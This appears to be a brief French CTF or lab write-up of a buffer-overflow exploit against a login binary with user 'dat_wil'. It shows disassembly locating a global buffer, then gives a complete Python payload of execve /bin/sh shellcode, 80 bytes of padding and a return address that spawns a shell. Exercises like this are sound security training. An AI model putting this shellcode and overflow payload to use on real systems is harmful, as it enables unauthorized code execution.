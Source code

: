 On a l'offset pour buffer overflow de 80 dans le champ password apres avoir trouvé le user qui est dat_wil 

on a 256 de place dans le premier buffer on peut donc largement mettre notre shellcode on connait l'adresse du premier buffer 

   0x08048515 <+69>:	mov    %eax,0x8(%esp)
   0x08048519 <+73>:	movl   $0x100,0x4(%esp)
   0x08048521 <+81>:	movl   $0x804a040,(%esp)
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>

0x804a040 car c'est le 3eme push qui représente le 1er arg

on y ajoute 7 pour dépasser "dat_wil" on execute on a un shell

shellcode = "dat_wil" + "1\xc0\xb0\xbe\xcd\x801\xc91\xd2Qhn/shh//bi\x89\xe3j\x0bX\xcd\x80"
password = "A" * 80 + "\x47\xa0\x04\x08"
payload = shellcode + "\n" + password

print(payload)
